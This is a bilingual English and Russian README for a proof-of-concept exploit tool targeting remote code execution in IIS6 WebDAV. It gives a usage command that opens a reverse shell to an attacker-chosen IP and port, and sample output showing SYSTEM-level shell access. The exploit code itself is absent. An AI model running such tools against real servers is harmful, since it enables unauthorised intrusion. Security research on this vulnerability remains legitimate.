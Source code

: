 
# EN
**GenWebDavIISExploit** is a PoC tool demonstrating an exploit for a known vulnerability in the WebDAV component of IIS6. This tool is designed for educational and research purposes to showcase how the vulnerability can be leveraged to execute arbitrary code on a remote server.

## Disclaimer

This project is intended for **educational purposes only**. Use this tool responsibly and only on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal.

## Features

- Remote code execution on vulnerable IIS6 WebDAV servers.
- Dynamic payload generation with user-specified reverse IP and port.
- Easy-to-use command-line interface for rapid exploitation.

## Prerequisites

- **Python 3.x**: Ensure that Python 3 is installed on your system.
- **Network Access**: Ability to connect to the target machine's IP and port.

## Usage
### Command-Line Arguments

- **Target IP**: The IP address of the target IIS6 WebDAV server.
- **Target Port**: The port number on which the WebDAV service is running (usually 80).
- **Reverse IP**: Your IP address where the reverse shell should connect.
- **Reverse Port**: The port number on your system to receive the reverse shell.

## Example

```bash
python3 GenWebDavIISExploit.py <target_ip> <target_port> <reverse_ip> <reverse_port>
```

## Usage Example

```bash
python3 GenWebDavIISExploit.py 192.168.1.10 80 192.168.1.5 4444
```

## Example output
```
$ python3 GenWebDavIISExploit.py 192.168.1.10 80 192.168.1.5 4444

[*] Подключение к цели 192.168.1.10 на порту 80...
[*] Отправка специально сформированного HTTP-запроса для эксплуатации уязвимости...
[*] Длина полезной нагрузки: 1744 байт
[*] Ожидание обратного соединения...

[+] Ответ от цели:
HTTP/1.1 200 OK
Content-Length: 123
Server: Microsoft-IIS/6.0

[+] Получено обратное соединение от 192.168.1.10:12345
[+] Удаленный доступ успешно установлен!

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
Настройка IP Windows

   Адаптер Ethernet Local Area Connection:
      DNS-суффикс подключения . . . . . : example.local
      IPv4-адрес. . . . . . . . . . . . : 192.168.1.10
      Маска подсети . . . . . . . . . . : 255.255.255.0
      Основной шлюз . . . . . . . . . . : 192.168.1.1
    
```


## Notes
- Ensure you have a listener running on the specified reverse port to capture the incoming reverse shell.
- Use this tool only on authorized systems to test for vulnerabilities.


# RU
**GenWebDavIISExploit** - это PoC-инструмент, демонстрирующий эксплуатацию известной уязвимости в компоненте WebDAV на IIS6. Этот инструмент создан в образовательных и исследовательских целях, чтобы показать, как уязвимость может быть использована для выполнения произвольного кода на удаленном сервере.


## Отказ от ответственности

Этот проект предназначен **только для образовательных целей**. Используйте этот инструмент ответственно и только на системах, которые вы владеете или имеете явное разрешение для тестирования. Несанкционированный доступ к компьютерным системам является незаконным.

## Особенности

- Выполнение удаленного кода на уязвимых серверах IIS6 WebDAV.
- Генерация динамического полезного кода с указанием IP и порта для обратного соединения.
- Простой интерфейс командной строки для быстрого использования.

## Требования

- **Python 3.x**: Убедитесь, что у вас установлен Python 3.
- **Доступ к сети**: Возможность подключаться к IP-адресу и порту целевой машины.


## Использование

### Аргументы командной строки

- **Target IP**: IP-адрес целевого сервера IIS6 WebDAV.
- **Target Port**: Номер порта, на котором работает служба WebDAV (обычно 80).
- **Reverse IP**: Ваш IP-адрес, на который должно быть установлено обратное соединение.
- **Reverse Port**: Номер порта на вашей системе для получения обратного соединения.

## Пример

```bash
python3 GenWebDavIISExploit.py <target_ip> <target_port> <reverse_ip> <reverse_port>
```

## Пример использования

```bash
python3 GenWebDavIISExploit.py 192.168.1.10 80 192.168.1.5 4444
```

## Пример вывода
```
$ python3 GenWebDavIISExploit.py 192.168.1.10 80 192.168.1.5 4444

[*] Подключение к цели 192.168.1.10 на порту 80...
[*] Отправка специально сформированного HTTP-запроса для эксплуатации уязвимости...
[*] Длина полезной нагрузки: 1744 байт
[*] Ожидание обратного соединения...

[+] Ответ от цели:
HTTP/1.1 200 OK
Content-Length: 123
Server: Microsoft-IIS/6.0

[+] Получено обратное соединение от 192.168.1.10:12345
[+] Удаленный доступ успешно установлен!

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
Настройка IP Windows

   Адаптер Ethernet Local Area Connection:
      DNS-суффикс подключения . . . . . : example.local
      IPv4-адрес. . . . . . . . . . . . : 192.168.1.10
      Маска подсети . . . . . . . . . . : 255.255.255.0
      Основной шлюз . . . . . . . . . . : 192.168.1.1
    
```


## Заметки

- Убедитесь, что у вас запущен прослушиватель на указанном обратном порту для перехвата входящего обратного соединения.
- Используйте этот инструмент только на авторизованных системах для проверки на наличие уязвимостей.

